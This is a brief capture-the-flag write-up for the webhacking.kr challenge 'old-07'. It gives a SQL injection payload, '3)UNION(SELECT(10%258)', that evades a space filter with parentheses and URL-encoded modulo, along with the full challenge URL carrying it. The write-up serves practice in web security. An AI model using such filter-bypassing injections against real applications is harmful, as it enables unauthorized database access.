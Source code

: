 ```yaml
---
layout: default
title: old-07
---
```


# webhacking old-07 Solution

here there is another sql challenge:

![alt text](./images/old-07.png)

this is the payload we will give: `3)UNION(SELECT(10%258)`
which equivalent to `3) UNION (SELECT ( 10 % 8 )` and as you know, `10 % 8 = 2` and that's what we need.

you'll need to refresh the page couple of times until the random will heat 1.
```
https://webhacking.kr/challenge/web-07/index.php?val=3)UNION(SELECT(10%258)
```